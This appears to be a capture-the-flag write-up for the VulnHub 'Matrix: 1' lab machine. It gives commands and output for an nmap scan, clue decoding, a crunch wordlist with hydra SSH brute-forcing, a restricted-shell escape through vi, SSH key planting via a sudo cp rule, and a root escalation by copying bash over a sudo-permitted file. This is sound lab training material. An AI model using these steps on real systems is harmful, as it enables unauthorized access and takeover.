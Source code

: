 # MATRIX: 1  
  
**URL: https://www.vulnhub.com/entry/matrix-1,259/**  
  
### NMAP

root@kali:\~# nmap -A 192.168.1.118  
>Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-04 16:56 UTC  
>Nmap scan report for porteus.home (192.168.1.118)  
>Host is up (0.00053s latency).  
>Not shown: 997 closed ports  
>PORT      STATE SERVICE VERSION  
>22/tcp    open  ssh     OpenSSH 7.7 (protocol 2.0)  
>| ssh-hostkey:   
>|   2048 9c:8b:c7:7b:48:db:db:0c:4b:68:69:80:7b:12:4e:49 (RSA)  
>|   256 49:6c:23:38:fb:79:cb:e0:b3:fe:b2:f4:32:a2:70:8e (ECDSA)  
>|_  256 53:27:6f:04:ed:d1:e7:81:fb:00:98:54:e6:00:84:4a (ED25519)  
>80/tcp    open  http    SimpleHTTPServer 0.6 (Python 2.7.14)  
>|_http-server-header: SimpleHTTP/0.6 Python/2.7.14  
>|_http-title: Welcome in Matrix  
>31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)  
>|_http-server-header: SimpleHTTP/0.6 Python/2.7.14  
>|_http-title: Welcome in Matrix  
>MAC Address: 08:00:27:E5:B2:AA (Oracle VirtualBox virtual NIC)  
>Device type: general purpose  
>Running: Linux 3.X|4.X  
>OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4  
>OS details: Linux 3.2 - 4.9  
>Network Distance: 1 hop  
>  
>TRACEROUTE  
>HOP RTT     ADDRESS  
>1   0.53 ms porteus.home (192.168.1.118)    
>  
>OS and Service detection performed. Please report any incorrect results at https://>nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 40.75 seconds  
  
### PORT 31337  
  
Here we find the same html that was running in the 80 port but with a few changes. If we look closely to the source code, we see a base64:  
>  
>ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=  
>  

That translates into the following text:  

>echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix  
  
The clue in the sentence is the filename. So we go to the hxxp://192.168.1.118:31337/Cypher.matrix  
>  
>+++++ ++++[ ->+++ +++++ +<]>+ +++++ ++.<+ +++[- >++++ <]>++ ++++. +++++  
>+.<++ +++++ ++[-> ----- ----< ]>--- -.<++ +++++ +[->+ +++++ ++<]> +++.-  
>...  
>  
  
Here we see what seems a brainfuck code.  
  
>   
>You can enter into matrix as guest, with password k1ll0rXX  
>  
>Note: Actually, I forget last two characters so I have replaced with XX try your  
>luck and find correct string of password.  
>  

### GUEST  
  
Well, that was easy. We just need to create a custom dictionary to retrieve the password:  

>    
>root@kali:\~# crunch 8 8 -f /usr/share/crunch/charset.lst mixalpha-numeric -t k1ll0r@@ -o pass.txt  
>Crunch will now generate the following amount of data: 34596 bytes  
>0 MB  
>0 GB  
>0 TB  
>0 PB  
>Crunch will now generate the following number of lines: 3844   
>  
>crunch: 100% completed generating output  
>  

And with our custom dictionary, we bruteforce the SSH with the guest user.  
  
>root@kali:\~# hydra -l guest -P pass.txt ssh://192.168.1.118  
>Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret >service organizations, or for illegal purposes.  
>  
>Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-04 17:14:00  
>[WARNING] Many SSH configurations limit the number of parallel tasks, it is >recommended to reduce the tasks: use -t 4  
>[DATA] max 16 tasks per 1 server, overall 16 tasks, 3844 login tries (l:1/p:3844), >\~241 tries per task  
>[DATA] attacking ssh://192.168.1.118:22/  
>[22][ssh] host: 192.168.1.118   login: guest   password: **k1ll0r7n**  
>1 of 1 target successfully completed, 1 valid password found  
>  
>Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-04 17:21:54  
  
Now, we have the guest credentials: k1ll0r7n. Let's log in:  
>  
>root@kali:\~# ssh -l guest 192.168.1.118  
>guest@192.168.1.118's password:   
>Last login: Sun Nov  4 17:24:05 2018 from 192.168.1.47  
>guest@porteus:\~$ id  
>-rbash: id: command not found  
>  

Cool, a restricted shell. Let's break out. First, we check what the environment looks like:
     
>guest@porteus:\~$ export  
>...  
>declare -rx PATH="/home/guest/prog"  
>declare -x PWD="/home/guest"  
>declare -rx SHELL="/bin/rbash"  
>...  
  
We have our PATH set to a specific folder, what tools do we have?  
  
>guest@porteus:\~$ /home/guest/prog/vi   
>.Xauthority    .cache/        .gksu.lock     Documents/     Public/  
>.bash_history  .config/       .local/        Downloads/     Videos/  
>.bash_profile  .dbus/         .ssh/          Music/         prog/  
>.bashrc        .esd_auth      Desktop/       Pictures/        

Just with the tab we see that vi is allowed. So It's pretty easy to break out, we can invoke a bash shell just with the following command:  

>vi -> :!/bin/bash  

Now we export our PATH to ease our game:  

>guest@porteus:\~$ declare -x PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:>/sbin:/bin"  
>guest@porteus:\~$ id  
>uid=1000(guest) gid=100(users) groups=100(users),7(lp),11(floppy),17(audio),18(video),19(cdrom),83(plugdev),84(power),86(netdev),93(scanner),997(sambashare)  
>  
Now we check what commands could we use as other users:  

>guest@porteus:/home/trinity$ sudo -l  
>User guest may run the following commands on porteus:  
>    (ALL) ALL  
>    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper  
>    (trinity) NOPASSWD: /bin/cp  

Well, the xfce4 file didn't exist, so let's log in as trinity to check what we could do.  
>  
>guest@porteus:\~$ /bin/echo "ssh-rsa AAAAB3...n6ymj root@kali" > test  
>guest@porteus:\~$ sudo -u trinity /bin/cp test /home/trinity/.ssh/authorized_keys  
>  
### TRINITY  

Nothing to explain here. Let's check again:  

>trinity@porteus:\~$ id  
>uid=1001(trinity) gid=1001(trinity) groups=1001(trinity)  
>trinity@porteus:\~$ sudo -l  
>User trinity may run the following commands on porteus:  
>    (root) NOPASSWD: /home/trinity/oracle  

### ROOT

Well, same routine and we are done:

>trinity@porteus:\~$ /bin/cp /bin/bash /home/trinity/oracle  
>  
>trinity@porteus:\~$ sudo -u root /home/trinity/oracle   
>root@porteus:/home/trinity# id  
>uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)  
>root@porteus:/home/trinity# cd  
>root@porteus:\~# cat flag.txt   
>   _,-.                                                               
>,-'  _|                  EVER REWIND OVER AND OVER AGAIN THROUGH THE  
>|_,-O__\`-._              INITIAL AGENT SMITH/NEO INTERROGATION SCENE  
>|\`-._\\`.__ \`_.           IN THE MATRIX AND BEAT OFF                   
>|\`-._\`-.\,-'_|  _,-'.                                                 
>     \`-.|.-' | |\`.-'|_     WHAT                                       
>        |      |_|,-'_\`.                                              
>              |-._,-'  |     NO, ME NEITHER                           
>         jrei | |    _,'                                              
>              '-|_,-'          IT'S JUST A HYPOTHETICAL QUESTION      
>  

It was fun, but very easy to solve. Props to @unknowndevice64 for the VM.  